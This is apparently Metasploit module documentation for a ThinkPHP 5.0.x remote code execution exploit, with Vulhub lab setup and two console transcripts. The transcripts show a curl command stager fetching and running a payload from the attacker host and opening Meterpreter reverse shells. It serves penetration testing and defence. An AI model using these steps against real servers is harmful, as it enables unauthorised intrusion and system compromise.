 ## Vulnerable Application

### Description

This module exploits one of two PHP injection vulnerabilities in the
ThinkPHP web framework to execute code as the web user.

Versions up to and including 5.0.23 are exploitable, though 5.0.23 is
vulnerable to a separate vulnerability. The module will automatically
attempt to detect the version of the software.

Tested against versions 5.0.20 and 5.0.23 as can be found on Vulhub.

### Setup

1. `git clone https://github.com/vulhub/vulhub`
2. `cd vulhub/thinkphp/5-rce` for 5.0.20 or `cd vulhub/thinkphp/5.0.23-rce` for 5.0.23
3. `docker-compose up -d`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, and you are using an HTTP(S) command stager, set this
to a different port to bind the command stager server to.

## Scenarios

### ThinkPHP 5.0.20 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce)

```
msf > use exploit/unix/webapp/thinkphp_rce
msf exploit(unix/webapp/thinkphp_rce) > options

Module options (exploit/unix/webapp/thinkphp_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(unix/webapp/thinkphp_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(unix/webapp/thinkphp_rce) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf exploit(unix/webapp/thinkphp_rce) > set srvport 8888
srvport => 8888
msf exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.20 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.20 automatically
[*] Using URL: http://0.0.0.0:8888/a81nrUs9fCfJSX
[*] Local IP: http://192.168.1.3:8888/a81nrUs9fCfJSX
[*] Generated command stager: ["curl -so /tmp/TbEGgqIl http://192.168.1.3:8888/a81nrUs9fCfJSX;chmod +x /tmp/TbEGgqIl;/tmp/TbEGgqIl;rm -f /tmp/TbEGgqIl"]
[*] Executing command: curl -so /tmp/TbEGgqIl http://192.168.1.3:8888/a81nrUs9fCfJSX;chmod +x /tmp/TbEGgqIl;/tmp/TbEGgqIl;rm -f /tmp/TbEGgqIl
[*] Client 192.168.1.3 (curl/7.52.1) requested /a81nrUs9fCfJSX
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:55132) at 2020-05-01 04:25:29 -0500
[+] Successfully executed command: curl -so /tmp/TbEGgqIl http://192.168.1.3:8888/a81nrUs9fCfJSX;chmod +x /tmp/TbEGgqIl;/tmp/TbEGgqIl;rm -f /tmp/TbEGgqIl
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 099b50f07ffe (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.19.0.2
OS           : Debian 9.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### ThinkPHP 5.0.23 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)

```
msf exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.23 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.23 automatically
[*] Using URL: http://0.0.0.0:8888/hVN9Y2ju
[*] Local IP: http://192.168.1.3:8888/hVN9Y2ju
[*] Generated command stager: ["curl -so /tmp/tHWxdQqn http://192.168.1.3:8888/hVN9Y2ju;chmod +x /tmp/tHWxdQqn;/tmp/tHWxdQqn;rm -f /tmp/tHWxdQqn"]
[*] Executing command: curl -so /tmp/tHWxdQqn http://192.168.1.3:8888/hVN9Y2ju;chmod +x /tmp/tHWxdQqn;/tmp/tHWxdQqn;rm -f /tmp/tHWxdQqn
[*] Client 192.168.1.3 (curl/7.52.1) requested /hVN9Y2ju
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Meterpreter session 2 opened (192.168.1.3:4444 -> 192.168.1.3:55145) at 2020-05-01 04:26:44 -0500
[+] Successfully executed command: curl -so /tmp/tHWxdQqn http://192.168.1.3:8888/hVN9Y2ju;chmod +x /tmp/tHWxdQqn;/tmp/tHWxdQqn;rm -f /tmp/tHWxdQqn
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ b4be164434d3 (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 9.6 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
